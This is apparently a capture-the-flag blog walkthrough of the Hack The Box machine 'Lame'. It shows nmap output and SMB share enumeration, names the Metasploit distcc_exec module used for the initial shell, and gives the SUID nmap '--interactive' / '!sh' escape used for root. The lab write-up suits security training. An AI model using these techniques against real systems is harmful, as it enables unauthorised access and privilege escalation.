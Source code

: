 ```yaml
---
title:     "Hack The Box - Lame"
tags: [linux,easy,SUID,cve]
layout: post
categories: HackTheBox OSCP-Like
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-lame/1.png)

We are going to pwn Lame from Hack The Box.

Link : <https://www.hackthebox.eu/home/machines/profile/1>


Lets Begin with our Initial Nmap Scan.

## Nmap Scan Results
```bash
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3632/tcp open  distccd

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.7
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: remote management|WAP|printer|general purpose|power-device
Running (JUST GUESSING): Dell embedded (92%), Linksys embedded (92%), Tranzeo embedded (92%), Xerox embedded (92%), Linux 2.4.X|2.6.X (92%), Dell iDRAC 6 (92%), Raritan embedded (92%)
OS CPE: cpe:/h:dell:remote_access_card:6 cpe:/h:linksys:wet54gs5 cpe:/h:tranzeo:tr-cpq-19f cpe:/h:xerox:workcentre_pro_265 cpe:/o:linux:linux_kernel:2.4 cpe:/o:linux:linux_kernel:2.6 cpe:/o:dell:idrac6_firmware cpe:/o:linux:linux_kernel:2.6.22
Aggressive OS guesses: Dell Integrated Remote Access Controller (iDRAC6) (92%), Linksys WET54GS5 WAP, Tranzeo TR-CPQ-19f WAP, or Xerox WorkCentre Pro 265 printer (92%), Linux 2.4.21 - 2.4.31 (likely embedded) (92%), Linux 2.6.8 - 2.6.30 (92%), Dell iDRAC 6 remote access controller (Linux 2.6) (92%), Raritan Dominion PX DPXR20-20L power control unit (92%), LifeSize video conferencing system (Linux 2.4.21) (92%), Linux 2.6.23 (91%), OpenWrt Kamikaze 7.09 (Linux 2.6.22) (90%), Arris TG862G/CT cable modem (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## FTP Enumeration

So lets start from 1st port ```ftp``` 
Lets check whether the version has any exploit available.

Since we know the verion of ``ftp`` which is ``vsftpd 2.3.4`` from nmap scan lets search for any exploits available.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-lame/2.png)

It didn't worked, they might patched it.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-lame/3.png)

Lets check other ports.

## SMB Enumeration

First I checked any shares available and it seems we have Read and Write access on `tmp`.
```bash
root@kali:~# smbmap -H 10.10.10.3
[+] IP: 10.10.10.3:445	Name: 10.10.10.3                                        
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	NO ACCESS	Printer Drivers
	tmp                                               	READ, WRITE	oh noes!
	opt                                               	NO ACCESS	
	IPC$                                              	NO ACCESS	IPC Service (lame server (Samba 3.0.20-Debian))
	ADMIN$                                            	NO ACCESS	IPC Service (lame server (Samba 3.0.20-Debian))
```
I get some error if I tried connecting to it.

## Getting User Shell

We know port `3632` running `Distcc` So I googled for any exploits available and found an exploit/

> https://www.rapid7.com/db/modules/exploit/unix/misc/distcc_exec

>use exploit/unix/misc/distcc_exec

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-lame/4.png)

We got shell and found an user ``makis``<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-lame/5.png)

### Without Metasploit

There is a python script from Github
> https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855

I tried using that python script and didn't changed any and got the shell as `daemon`.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-lame/8.png)

## Privilege Escalation

Uploaded my enumeration Script and 
Found some SETUID.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-lame/6.png)

Lets try with ``nmap``

I searched for nmap in GTFOBins 

>https://gtfobins.github.io/gtfobins/nmap/

```
nmap --interactive
nmap> !sh
```
Using the commands

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-lame/7.png)

We got the Root!!

